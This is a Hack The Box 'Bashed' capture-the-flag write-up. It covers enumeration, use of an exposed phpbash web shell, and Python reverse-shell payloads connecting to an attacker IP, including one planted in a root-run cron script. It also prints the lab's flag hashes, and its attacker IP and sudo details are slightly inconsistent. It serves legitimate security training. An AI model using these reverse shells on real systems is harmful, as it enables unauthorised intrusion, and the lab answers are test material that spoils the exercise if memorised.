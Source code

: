 # HTB: Bashed

## Engagement Overview

**Target:** Bashed  
**Box IP:** 10.10.10.68     
**Date:** 2025-07-06    
**Attacker Host:** 10.10.14.3   

---

### Objectives

- Enumerate open services and directories  
- Gain initial foothold via exposed web shell  
- Escalate to user and root  
- Capture user and root flags  

---

## Service Enumeration

### Nmap

```bash
nmap -sC -sV -oN nmap.txt 10.10.10.68
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

- Web page title: *Arrexel's Development Site*

### Directory Enumeration

```bash
dirbuster -u http://10.10.10.68 -w /usr/share/wordlists/dirb/common.txt
```

- `/dev/phpbash.min.php`  
- `/dev/phpbash.php`  
- `/uploads/`  

---

## Initial Access

Accessing the exposed shell at:

```
http://10.10.10.68/dev/phpbash.php
```

Confirmed `www-data`:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Reverse Shell

```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.2",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

Upgraded shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

`www-data` has `sudo` access to run commands as `scriptmanager` without password:

```
(ALL : ALL) NOPASSWD: ALL
```

Switched to `scriptmanager`, found writable `/scripts/` directory:  

```
-rw-r--r-- 1 scriptmanager scriptmanager test.py
-rw-r--r-- 1 root          root          test.txt
```

`test.txt` overwritten by cron → root executes `test.py`.  

### Root via Cron

Replaced `test.py` with reverse shell payload:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.2",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Caught root shell with netcat listener:  

```bash
nc -lvnp 1337
```

---

## House Cleaning

**Flags:**  

- `user.txt`: `501893517418a7460a6f616a86f3fd82`  
- `root.txt`: `25a9eb38a763d8a0f04af9a3fc390ee7`  

- Removed malicious `test.py` after escalation.  
- No persistence left on target.  

---

## Tools Utilized

- `nmap`, `dirbuster`  
- Python reverse shell  
- `/dev/phpbash.php` interactive shell  
- `linuxprivchecker`  

References:  

- https://github.com/sleventyeleven/linuxprivchecker  
- https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2  

---

## Key Takeaways

- Dev artifacts like `phpbash.php` can provide immediate shells.  
- Python reverse shells + TTY upgrades are critical for stability.  
- Cron jobs with writable scripts enable easy privilege escalation.  
- `sudo` misconfigurations with secondary users (e.g. `scriptmanager`) are dangerous and should be audited.  